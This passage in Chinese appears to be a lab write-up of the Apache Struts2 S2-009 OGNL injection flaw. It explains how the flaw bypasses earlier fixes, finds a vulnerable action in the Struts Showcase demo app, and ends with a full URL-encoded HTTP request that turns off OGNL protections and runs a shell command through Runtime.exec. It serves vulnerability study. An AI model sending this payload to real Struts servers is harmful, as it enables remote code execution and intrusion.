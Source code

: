 Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

## Exploit构造

试环境是一个struts2的“功能展示”网站`Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是string的action。

先对`S2-009.war`进行解压（我用binwalk，其实直接zip就可以），可见源码都在`WEB-INF/src`目录中，我一般找ajax相关的代码，这些代码一般逻辑比较简单。

找到一个`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```



代码没有更简单了，其接受了name参数并调用setName将其赋值给私有属性`this.name`，正是符合我们的要求。然后去`WEB-INF/src/java/struts-ajax.xml`看一下URL路由：

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

```plain
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
